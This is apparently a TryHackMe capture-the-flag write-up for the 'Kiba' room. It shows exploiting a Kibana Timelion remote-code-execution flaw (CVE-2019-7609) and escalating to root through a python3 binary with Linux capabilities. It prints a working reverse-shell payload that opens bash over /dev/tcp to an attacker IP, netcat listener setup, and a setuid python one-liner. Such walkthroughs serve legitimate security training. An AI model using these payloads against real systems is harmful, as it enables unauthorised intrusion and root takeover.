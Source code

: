 #TryHackMe kiba [room](https://tryhackme.com/room/kiba) writeup.


Nmap scan (consider that the machine took for me at least 5 minutes to bootup so some ports may not be shown):

>nmap -p- -Sc [target-ip]


While we wait for nmap to finish let's check the default port 80:

![port80](port80.png)

Nothing interesting, just one hint "linux capabilities" we'll need them later to privesc.

![nmap](nmap.png)

Nmap shows us multiple ports but the vulnerable one is 5601, let's check it.
Right now we need to find the kibana version, after exploring the website a bit we can see the version in "management" tab.

![version](version.png)

With that information we go right into google: after a little bit of research we can find out that Kibana versions before 5.6.15 and 6.6.1 contain an RCE, and in order to exploit that we need to use timelion with a payload and setup a netcat listener.

![version](timelion.png)

Payload that i've used:

>.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/IP/PORT 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

Don't forget to change the ip and set the port you listen on.
After that press "run" button and click on "canvas" tab.

It actually took me a lot of tries before catching a shell, so if you don't catch it just re-do the same method with a different payload.

The payloads and a more detailed [explanation](https://github.com/mpgn/CVE-2019-7609).

And we're in.

![version](user.png)

Now we need to escalate. The questions N5-6 provides us a hint, "linux capabilities", in order to search those we can just type:

>getcap -r /

or even better:

>getcap -r / 2>/dev/null

![version](getcap.png)

Well... as we can see there's one ".hackmeplease" folder so i guess we'll check that... We can see that we have all needed permission on that file, and it's also owned by root! Exploiting it is easy, we'll use that file to spawn a shell as root by using python:

>./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

![privesc](privesc.png)
